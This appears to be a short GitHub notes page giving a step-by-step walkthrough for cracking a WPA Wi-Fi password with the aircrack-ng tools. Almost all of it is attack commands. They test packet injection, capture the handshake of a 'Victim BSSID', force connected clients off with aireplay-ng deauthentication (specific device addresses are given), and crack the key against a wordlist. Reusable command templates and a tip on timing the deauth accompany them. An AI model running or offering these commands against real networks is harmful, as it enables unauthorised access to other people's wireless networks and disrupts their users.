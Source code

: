 #### Testing Injection for the cards 

Basic Commands in increasing order of complexity:
```sh
sudo aireplay-ng --test wlan0mon
sudo aireplay-ng --test wlan0mon -a f4:f2:6d:d0:ac:9a -e SAMYAK
sudo aireplay-ng --test wlo1mon -a f4:f2:6d:d0:ac:9a -e SAMYAK
```


The command is of type:
```sh
sudo aireplay-ng --test wlo1mon -a <Victim BSSID> -e <Victim SSID>
```

#### Capturing Authentication Packets (IVs/Initialization Vectors)

```sh
sudo airodump-ng -c 9 --bssid f4:f2:6d:d0:ac:9a -w psk wlan0mon
```


The command is of type:
```sh
sudo airodump-ng -c 9 --bssid <Victim BSSID> -w psk wlan0mon
```

#### Deauthenticating User connected to the Victim Machine

In the process of capturing authentication packets by the method mentioned just above this one, its also going to capture the usual data packets. It will have information of any device's BSSID mentioned under `STATION` connected to our Victim's BSSID


```sh
sudo aireplay-ng -0 2 -a f4:f2:6d:d0:ac:9a -c 8C:BE:BE:3B:20:DD wlan0mon
sudo aireplay-ng -0 2 -a f4:f2:6d:d0:ac:9a -c A4:70:D6:82:27:8F wlan0mon
```

The command is of type:
```sh
sudo aireplay-ng -0 1 -a <Victim BSSID> -c <BSSIS of User Connected to Victim BSSID> ath0
```

After this rerun the capturing authentication packet process, once authentication packet is captured you should have something very much similar saying `CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 00:14:6C:7E:40:80` somewhere on top printed on the screen.

* Recommendation : Run Caputring Authentication Packet Part on Terminal say `1` then on another instance of Terminal say `2` run the Deauthenticating User Command. This way we can have lowest latency in running commands.

#### Running aircrack-ng to crack the pre-shared key :

This key was obtained by capturing the handshake

```sh
aircrack-ng -w aircrack-ng-1.2-rc4/test/password.lst -b f4:f2:6d:d0:ac:9a psk*.cap
```
